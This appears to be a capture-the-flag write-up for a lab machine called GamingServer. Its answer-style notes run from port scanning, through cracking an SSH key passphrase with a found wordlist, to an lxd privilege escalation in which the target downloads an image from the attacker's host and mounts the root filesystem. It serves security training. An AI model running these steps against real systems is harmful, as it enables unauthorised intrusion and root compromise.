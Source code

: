# GamingServer

- What is the user flag?

	- Visit `http://<TARGET_IP>`.
	- `scilla port -target <TARGET_IP> -p -1000`
	- Two ports open. 22 and 80.
	- `scilla dir -target <TARGET_IP>`
	~~~
	[+]FOUND: http://<TARGET_IP>/uploads/ 200 OK
	[+]FOUND: http://<TARGET_IP>/secret/ 200 OK
	~~~
	- Found a dictionary of passwords in uploads (dict.lst) and a RSA private key.
	- Save these two files.
	- `python2 /usr/share/john/ssh2john.py rsa_priv > id_rsa.hash`
	- `john -w dict.lst id_rsa.hash`
	- `chmod 600 rsa_priv`
	- `ssh john@<TARGET_IP> -i rsa_priv`. We know the user is john from the website.
	- `ls`
	- `cat user.txt`
	- `*********************************`

- What is the root flag?

	- john is in the `lxd` group.
	- So download the [lxd Alpine Builder](https://github.com/saghul/lxd-alpine-builder).
	- `git clone https://github.com/saghul/lxd-alpine-builder.git`
	- `cd lxd-alpine-builder`
	- `sudo ./build-alpine`
	- `python3 -m http.server`
	- On target `wget http://<YOUR_IP>:8000/alpine-*****************.tar.gz`
	- `lxc image import ./alpine-*****************.tar.gz --alias myimage`
	- `lxc init myimage ignite -c security.privileged=true`
	- `lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`
	- `lxc start ignite`
	- `lxc exec ignite /bin/sh`
	- `id`
	- `cat /mnt/root/root/root.txt `
	- `********************************`





